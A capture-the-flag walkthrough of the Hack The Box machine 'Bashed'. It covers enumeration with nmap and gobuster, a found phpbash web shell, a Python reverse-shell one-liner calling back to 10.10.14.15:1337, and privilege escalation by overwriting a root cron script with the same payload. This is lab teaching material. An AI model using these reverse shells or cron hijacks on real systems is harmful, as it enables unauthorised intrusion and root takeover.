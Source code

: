 ![logo](/logo.png)

# [Bashed- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 09 Dec 2017 as the fifth machine on HTB,Bashed created by [Arrexel](https://app.hackthebox.com/users/2904) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *phpbash
  *cronjob
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/bashed 10.10.10.68
```

###### Output 

![](/Linux/Linux-Easy/Bashed/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/bashed 10.10.10.68                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 20:09 EAT
Nmap scan report for 10.10.10.68
Host is up (0.33s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 318.36 seconds
```


looking at the results  we find out that there are 1 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.18`. 

port[80]- http


when we naviagate to [https://10.10.10.68](https://10.10.10.68)  we find a page which talks about phpbash


![](/Linux/Linux-Easy/Bashed/Screenshots/browser.png)

 find nothing od interesting so lets start gobuster so that I can be able to enumerate active directories folders. 

```sh
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirb/common.txt -k --no-error
```

![](/Linux/Linux-Easy/Bashed/Screenshots/gobuster.png)


it revels directories and looking at `dev` i find something interesting 

![](/Linux/Linux-Easy/Bashed/Screenshots/dev.png)

Clicking on phpbash gives a shell:

![](/Linux/Linux-Easy/Bashed/Screenshots/shell.png)

Inside `/home/arrexel` is the user flag:

![](/Linux/Linux-Easy/Bashed/Screenshots/userflag.png)

lest upgrade the shell so tha we can have a more interactive shell and using our local machine. we then run this to the webshell of the target.

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](/Linux/Linux-Easy/Bashed/Screenshots/shell2.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

![](/Linux/Linux-Easy/Bashed/Screenshots/stty.png)

lets run LinEnum to get info about possible privsec.

![](/Linux/Linux-Easy/Bashed/Screenshots/linenum.png)

The command `sudo -l` reveals that the `www-data` user can run any command as
`scriptmanager`. Running the command

![](/Linux/Linux-Easy/Bashed/Screenshots/sudol.png)

 Running the command will spawn a bash shell and give full read/write access to `/scripts`

```sh
sudo -u scriptmanager bash -i
```

![](/Linux/Linux-Easy/Bashed/Screenshots/bashi.png)

Looking at the information of the files in the directory shows that `test.py` appears to be executed
every minute. This can be inferred by reading `test.py` and looking at the timestamp of `test.txt`.
The text file is owned by root, so it can also be assumed that it is run as a root cron job. A root
shell can be obtained simply by modifying `test.py` or creating a new Python file in the `/scripts`
directory, as all scripts in the directory are executed.

lests creat a python exploit an execute it from the directory by editing `test.py`

```sh
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.15\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

and after a second we get root shell and we can get the `root flag` at 

![](/Linux/Linux-Easy/Bashed/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------




